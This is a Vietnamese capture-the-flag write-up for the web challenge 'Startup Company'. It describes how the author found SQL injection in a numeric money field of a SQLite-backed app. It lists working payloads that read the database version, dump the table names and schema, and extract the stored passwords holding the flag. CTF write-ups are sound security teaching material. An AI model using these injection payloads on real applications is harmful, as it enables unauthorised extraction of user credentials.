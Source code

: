 Startup Company
===
**Catergory:** Web

**Author:** MADSTACKS
### Description
Do you want to fund my startup?

### Overview
- Trang web có form đăng nhập và đăng kí tài khoản. Kiểm tra mã nguồn thì không có gì đặc biệt và đáng nghi ngờ
- Thử đăng kí một tài khoản bất kì để đăng nhập vào xem có gì bên trong. Ở đây mình đăng kí với user là test và pass cũng là test.
- Đăng nhập vào thì thấy được một chỗ để chúng ta có thể nhập tiền vào và hiện thị số tiền đó ra.

### Solution
- Author cho biết chương trình sử dụng sqlite nên mình suy nghĩ có thể là sqli. Mình thử một vài payload đơn giản của sqli ở phần form đăng kí và đăng nhập thì thấy không có gì bất thường hay dump ra lỗi của sql vì vậy mình nghĩ không phải sqli ở 2 form này
- Lúc login vào thì có một chỗ cho chúng ta nhập tiền vào và chỉ cho nhập số. Mình thử xóa type number sau đó nhập `1'` thì kết quả nhận được là `database error` => mình có thể sqli ở đây
- Tới đây mình nghĩ ở đây câu query có thể là `insert into table(Amount,...) values('input của chúng ta')`. Vì vậy mình thử injection đơn giản với payload này `1'||(select sqlite_version())-- -` thì ta thấy được nó hiện thị ra version của sqlite.
- Bây giờ chỉ cần dump ra tên table và comlume để tìm kiếm flag.

##### Payload
- `1'||(SELECT tbl_name FROM sqlite_master)-- -` -> dump ra table (startup_users)
- `1'||(SELECT sql FROM sqlite_master)-- -` -> dump ra comlume (nameuser,wordpass,money)
- `1'||(SELECT group_concat(wordpass) FROM startup_users)-- -` -> flag nằm trong này